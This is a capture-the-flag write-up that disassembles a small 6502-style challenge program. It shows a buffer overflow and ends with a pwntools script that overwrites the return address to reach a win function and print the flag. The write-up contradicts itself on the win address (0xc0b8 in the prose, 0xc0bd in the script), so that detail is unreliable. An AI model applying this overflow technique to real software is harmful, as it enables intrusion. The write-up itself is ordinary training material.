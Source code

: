 # Stack Up

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud & DavidP |
|  **Category** |  Pwn |
|  **Solves** |  3  |
|  **Difficulty** |  Easy |
| **Files** |  [stackup.zip](<stackup.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/5457766a-275a-42ca-b4be-3721f36127eb)

# Solution

We are provided with two files. This chall is similar to the `Impossible Mission` challenge, but now its an pwn challenge. One binary and one file with data in it. If we use `strings` on file `program.prg` we get some strings, like the REDACTED flag:

```bash
$ strings program.prg
INTIGRITI{REDACTED_REDACTED}
Welcome! Something here...
Bye bye!
Hello
```

Lets disassemble it with our disassembler that we created in the reversing challenge. Here the output(With some comments of my own):

```bash
; Set keyboard as active input channel
004c LDX 3
004e JSR ffc9

; Start of the program. 
0051 LDA 20
0053 STA fb
0055 LDA c0
0057 STA fc
0059 JSR c0c9       ; Jumps to the print function
005c JSR c06d       ; Jumps to the function that takes our input
005f LDA 3c         ; Loads bye bye message
0061 STA fb
0063 LDA c0
0065 STA fc
0067 JSR c0c9       ; Jumps to the print function
006a RTS            ; Exits

; Take our input and does some checks
006b some var
006c some var
006d CLC
006e TSX
006f STX c06b       ; Stores the SP at some memory
0072 TXA
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX
0076 DEX
0077 TXS
0078 STA fd
007a LDA 1
007c STA fe
007e LDY 0
0080 LDA 0
0082 STA c06c
0085 JSR ffcf       ; This will take our input
0088 PHA
0089 LDA c06c       ; Loads our input length in the accumulator
008c CMP 64         ; Compares our input length in the accumulator with 0x64/100. 100 is Maxsize. OVERFLOW is here because we can input more characters than the buffer can take(50)
008e PLA
008f BEQ 11
0091 STA (fd), y
0093 INY
0094 INC c06c       ; Increments our input length
0097 CMP d          ; d is 0x13(carriage return) so checks if user clicks on enter
0099 BEQ 7
009b CMP a          ; a is 0x10(newline) so checks if user clicks on enter
009d BEQ 3
009f JMP c085
00a2 LDA 45
00a4 STA fb         ; Loads Hello message
00a6 LDA c0
00a8 STA fc
00aa JSR c0c9       ; Jumps to the print function
00ad LDA fd         ; Loads our input 
00af STA fb
00b1 LDA fe
00b3 STA fc
00b5 JSR c0c9       ; Jumps to the print function
00b8 LDX c06b       ; Grabs the SP and puts in the X register 
00bb TXS
00bc RTS

; Win function
00bd LDA 3          ; Loads the flag
00bf STA fb
00c1 LDA c0
00c3 STA fc
00c5 JSR c0c9       ; Jumps to the print function
00c8 RTS

; Print function
00c9 LDY ff
00cb INY
00cc LDA (fb), y
00ce JSR ffd2
00d1 BNE f8
00d3 RTS
```

So from here we can see that we have an buffer overflow vulnerability and that there is a win function.
We know 50 is the length so everything above 50 will be overflow. Our padding will be 51 because the buffer is 50 and SP points after the return address.
We can also see it in the disassembled output:

```bash
006e TSX            ; Puts SP in X register
006f STX c06b       ; Stores the SP at some memory
0072 TXA            ; Puts value at X register in accumulator
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX            ; Puts accumulator back in X register 
0076 DEX            ; Decrements X by 1
0077 TXS            ; Puts the value in the X register in the SP register
```

How do we know where we need to return?
When we decompile the binary with ghidra for example, we can find the init function:

```c
bool load_program(void *param_1,size_t param_2)
{
  if ((long)param_2 < 0x1001) {
    memcpy(&DAT_00114908,param_1,param_2);
    FUN_0010269e(0xffff);
    DAT_00108900 = 0xc000;          // program is loaded to 0xC000
  }
  return (long)param_2 < 0x1001;
}
```

We can see here that the base address is 0xc000. In the disassembled output from before we can see some addresses like `c0c4`, `c081`. Those are all addresses in the program. So to get the win address we can see in the disassembled output that the win starts at `00b8`:

```bash
; Win function
00b8 LDA 3 ; Loads the flag
00ba STA fb
00bc LDA c0
00be STA fc
00c0 JSR c0c4 ; Jumps to the print function
00c3 RTS
```

So the address is `0xc0b8`. We see that it loads the flag at offset 3. So lets see if the flag is there:

```bash
                 ,------- flag value --------------------.
                 v                                        v
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 4c c0 49 4e 54 49 47 ┊ 52 49 54 49 7b 52 45 44 │LL×INTIG┊RITI{RED│
│00000010│ 41 43 54 45 44 5f 52 45 ┊ 44 41 43 54 45 44 7d 00 │ACTED_RE┊DACTED}0│
│00000020│ 57 65 6c 63 6f 6d 65 21 ┊ 20 53 6f 6d 65 74 68 69 │Welcome!┊ Somethi│
│00000030│ 6e 67 20 68 65 72 65 2e ┊ 2e 2e 0a 00 42 79 65 20 │ng here.┊.._0Bye │
│00000040│ 62 79 65 21 00 48 65 6c ┊ 6c 6f 20 00 a2 03 20 c9 │bye!0Hel┊lo 0×• ×│
│00000050│ ff a9 20 85 fb a9 c0 85 ┊ fc 20 c9 c0 20 6d c0 a9 │×× ×××××┊× ×× m××│
│00000060│ 3c 85 fb a9 c0 85 fc 20 ┊ c9 c0 60 00 00 18 ba 8e │<×××××× ┊××`00•××│
│00000070│ 6b c0 8a e9 32 aa ca 9a ┊ 85 fd a9 01 85 fe a0 00 │k×××2×××┊×××•×××0│
│00000080│ a9 00 8d 6c c0 20 cf ff ┊ 48 ad 6c c0 c9 64 68 f0 │×0×l× ××┊H×l××dh×│
│00000090│ 11 91 fd c8 ee 6c c0 c9 ┊ 0d f0 07 c9 0a f0 03 4c │•××××l××┊_×•×_×•L│
│000000a0│ 85 c0 a9 45 85 fb a9 c0 ┊ 85 fc 20 c9 c0 a5 fd 85 │×××E××××┊×× ×××××│
│000000b0│ fb a5 fe 85 fc 20 c9 c0 ┊ ae 6b c0 9a 60 a9 03 85 │××××× ××┊×k××`×•×│
│000000c0│ fb a9 c0 85 fc 20 c9 c0 ┊ 60 a0 ff c8 b1 fb 20 d2 │××××× ××┊`××××× ×│
│000000d0│ ff d0 f8 60             ┊                         │×××`    ┊        │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

It indeed starts at that offset.

So if we put everything in a script we get:
> solve.py
```python
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```

Running this on remote will give us the flag.

Flag `INTIGRITI{d0_s0m3_r3tr0_pwn}`
